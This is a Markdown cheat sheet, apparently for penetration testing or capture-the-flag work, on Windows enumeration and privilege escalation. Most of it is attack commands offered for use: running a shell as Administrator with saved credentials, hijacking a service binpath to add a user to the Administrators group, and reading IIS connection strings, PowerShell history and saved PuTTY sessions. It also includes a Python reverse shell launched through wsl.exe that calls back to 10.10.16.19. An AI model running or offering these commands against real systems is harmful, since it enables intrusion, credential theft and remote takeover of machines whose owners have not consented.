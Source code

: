 # Windows Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```whoami /groups``` | Gets a listing of the groups for the current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
| ```wmic product get name,version``` | Uses WMI to get installed software |
| ```Get-ChildItem -Hidden -Path C:\Users\username\Desktop\``` | Searches directory for hidden files | 
| ```wmic service where "name like 'service name'" get Name,PathName``` | Uses WMI to get service information | 
| ```Get-Service \| where-object Name -match 'Service Name' ``` | Using Powershell search for service information |
| ```Get-Process -Name name-of-process``` | Using Get-Process find process PID | 
| ```netstat -noa \|findstr "LISTENING" \|findstr "1337"``` | Using the PID of the process, find out what port its running on | 
| ```net accounts``` | Check the logs settings on a machine such as passowrd policy, etc.|
| ```net accounts /domain``` | Check if the machine belongs to a domain | 
| ```net share``` | Checks for a list of open shares |
| ```schtasks /query /tn vulntask /fo list /v``` | Check scheduled tasks for the taskname "vulntask" |

| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059``` |
| Be sure to check program files and (x86) | Enumerate all of the software that might be loaded on the machine |
| Check for IIS credentials | ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString``` |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Windows Kernel Exploits
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

## Checking PowerShell Command History
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Checking for Stored SSH Credentials
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
